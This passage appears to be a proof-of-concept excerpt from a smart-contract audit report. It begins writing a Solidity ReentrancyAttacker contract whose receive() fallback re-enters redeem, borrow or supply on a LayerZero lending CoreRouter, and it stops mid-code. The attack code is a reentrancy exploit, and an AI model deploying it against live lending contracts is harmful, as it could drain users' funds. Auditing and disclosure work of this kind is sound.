 # POC
1. create Attack contract :

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {CoreRouter} from "../../src/LayerZero/CoreRouter.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {LendStorage} from "../../src/LayerZero/LendStorage.sol";

contract ReentrancyAttacker {
    CoreRouter public coreRouter;
    LendStorage public lendStorage;
    address public lToken;
    uint256 public amount;
    uint256 public attackCount;
    address public token;
    
    // Attack type flags
    bool public shouldReenterWithRedeem;
    bool public shouldReenterWithBorrow;
    bool public shouldReenterWithSupply;
    
    constructor(address payable _coreRouter, address _lendStorage) {
        coreRouter = CoreRouter(_coreRouter);
        lendStorage = LendStorage(_lendStorage);
    }

    function setAttackType(bool _redeem, bool _borrow, bool _supply) external {
        shouldReenterWithRedeem = _redeem;
        shouldReenterWithBorrow = _borrow;
        shouldReenterWithSupply = _supply;
    }

    function attack(address _lToken, uint256 _amount, address _token) external {
        lToken = _lToken;
        amount = _amount;
        token = _token;
        attackCount = 0;
        CoreRouter(coreRouter).redeem(_amount, payable(_lToken));
    }

    function borrowAttack(address _lToken, uint256 _amount, address _token) external {
        lToken = _lToken;
        amount = _amount;
        token = _token;
        attackCount = 0;
        CoreRouter(coreRouter).borrow(_amount, _token);
    }

    receive() external payable {
        if (attackCount < 1) {
            attackCount++;
            
            if (shouldReenterWithRedeem) {
                CoreRouter(coreRouter).redeem(amount, payable(lToken));
            }
            else if (shouldReenterWithBorrow) {
                CoreRouter(coreRouter).borrow(amount, token);
            }
            else if (shouldReenterWithSupply) {
                CoreRouter(coreRouter).supply(amount, token);
```